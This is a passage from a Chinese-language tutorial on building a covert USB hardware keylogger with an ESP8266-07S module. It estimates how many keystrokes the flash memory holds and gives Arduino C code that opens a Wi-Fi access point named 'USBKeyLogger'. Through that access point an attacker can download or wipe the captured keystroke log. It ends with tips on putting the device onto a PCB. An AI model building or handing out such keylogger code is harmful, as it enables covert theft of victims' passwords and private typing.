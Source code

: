 ESP8266-07S 模块中，这个闪存的大小为 4M，足够我们保存相当多的键盘记录了。*一个按键按下的记录信息大约要花32字节去存的话，4兆大约可以存按下键盘13万次的内容。*

最后是 WiFi 部分：创建一个 Wi-Fi 网络，攻击者连接上以后就可以查看或清空键盘记录。部分核心代码如下：
```C
#include <ESP8266WiFi.h>
#include <ESPAsyncTCP.h>
#include <ESPAsyncWebServer.h>

const char *ssid = "USBKeyLogger";   // 创建的接入点的名称
const char *password = "12345678";   // 接入点的密码

AsyncWebServer server(80);           // 在 80 端口开启服务（ip 为 192.168.4.1）

void setup() {

  WiFi.mode(WIFI_STA);               // Wi-Fi为接入点模式
  WiFi.softAP(ssid,password);        // 开启Wi-Fi

  server.on("/", HTTP_GET, [](AsyncWebServerRequest *request){         // 当访问根目录时显示记录内容
    request->send(SPIFFS, "/keyLog.txt", "text/plain");
  });

  server.on("/clear", HTTP_GET, [](AsyncWebServerRequest *request){    // 当访问“/claer”时清空已有记录(手机浏览器末尾写/clear即可清除先前的内容)
    logFile.close();
    logFile = SPIFFS.open("/keyLog.txt", "w");
    request->send(200, "text/plain", "Log File Cleared!");
  });
  server.begin();                                                      // 开启服务器
}
```

### 实物制作

为了更好的将电路集成，最好是将这些模块焊接在一块定制化的 PCB 电路板上(Printed Circuit Board，印制电路板，即电子元器件连接起来的支撑体)

现在大多数成熟的电子产品都是集成焊接在 PCB 板上的。因为 PCB 板可以更好的集成电子元件，使产品体积、结构上更优异，可以更稳定的运行。(手机，导航仪，电脑主板都是这样的)

推荐一个绘图工具：Altium designer
- 下载地址：https://www.altium.com.cn/ (好用，没广告，但是收费)

如果用普通的覆铜板也不是不可以，就是体积大，不美观。
